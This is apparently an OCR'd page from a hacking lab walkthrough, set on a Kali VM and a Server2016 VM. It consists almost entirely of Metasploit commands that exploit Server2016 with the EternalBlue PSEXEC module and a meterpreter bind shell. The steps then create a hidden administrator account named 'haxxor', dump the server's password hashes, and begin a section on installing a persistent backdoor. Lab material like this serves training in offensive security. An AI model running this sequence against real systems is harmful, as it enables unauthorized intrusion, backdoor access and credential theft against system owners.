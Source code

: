 use \<exploit/windows/smb/ms17_010_psexec\>

show options

search payload windows/x64/meterpreter

set payload windows/x64/meterpreter/bind_tcp

set rhosts \<server2016 IP\>

set lhost \<Kali IP\>

set smbuser moo

set smbpass 1Password

show options

run

\# Get information from Server2016

getuid

\# Drop to a Windows command prompt (shell)

shell

\# Create a backdoor administrator account

net user haxxor Letmein! /add

net localgroup administrators /add haxxor

\# Return to meterpreter and dump Server2016 password hashes

sessions

sessions 2

search hashdump

use post/windows/gather/smart_hashdump

show options

set session 2

run

INSTALLING A PERSISTENT BACKDOOR

Persistence

VMs:

Kali

Server2016

Verify IP addresses of both VMs

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

Use Eternal Blue PSEXEC to compromise Server2016
